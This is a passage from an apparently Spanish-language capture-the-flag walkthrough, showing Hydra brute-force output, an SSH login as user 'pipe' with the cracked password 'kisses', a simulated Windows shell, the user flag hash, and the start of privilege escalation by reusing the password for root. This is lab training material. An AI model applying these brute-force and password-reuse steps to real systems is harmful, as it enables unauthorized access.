 ```
[ERROR] 23 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-10 11:41:46
```

Veremos que ha funcionado y obtendremos la contraseña del usuario `pipe` por lo que vamos a conectarnos por `SSH`.

### SSH

```shell
ssh pipe@<IP>
```

Metemos como contraseña `kisses` y veremos que estaremos dentro.

Info:

```
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.12.13-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu Jul 10 17:15:11 2025 from 172.17.0.1
Windows PowerShell
Copyright (C) Microsoft Corporation. Todos los derechos reservados.

Intente el nuevo Windows Terminal: https://aka.ms/terminal

PS C:\Users\pipe> whoami
DESKTOP-BXA2HDX\pipe
```

Ahora leeremos la `flag` del usuario.

> user.txt

```powershell
type /home/pipe/user.txt
```

Info:

```
d970977b69a543ce746095e2b660d107
```

## Escalate Privileges

Vemos algo interesante y es que esta simulando una `shell` de `Windows` con los comandos propios del propio sistema, tendremos muchas limitaciones entorno a los comandos, pero vamos a probar la palabra anterior con el usuario de `root`.
